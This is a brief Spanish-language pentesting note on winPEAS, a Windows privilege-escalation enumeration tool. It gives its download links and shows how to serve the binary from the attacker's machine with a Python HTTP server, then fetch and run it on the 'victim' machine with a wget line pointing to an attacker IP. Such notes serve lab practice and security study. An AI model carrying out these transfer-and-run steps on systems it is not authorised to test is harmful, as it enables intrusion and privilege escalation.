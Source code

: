 #winpeas

----------

Enumera posibles escaladas de privilegio para maquinas windows de manera automatica

-------
# Links
[Link del proyecto en github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)
[Link del archivo directo para descargar](https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe)

------

# Como pasarlo a la maquina victima

Abrimos un [[python3 -m http.server]] desde nuestra maquina

Desde la maquina victima: 
```shell
wget http://IpDeNuestraMaquina/winPEASx64.exe -outfile winPEASx64.exe
Ejemplo: wget http://10.10.16.16/winPEASx64.exe -outfile winPEASx64.exe
```

Desde la powershell ejecutamos `./winPEAS64.exe > win` y vamos a mandar el output a un archivo llamado win, por que si ejecutamos directamente el archivo, como es mucho texto no podemos visualizarlo todo en al consola ya que no nos deja hacer scroll muy arriba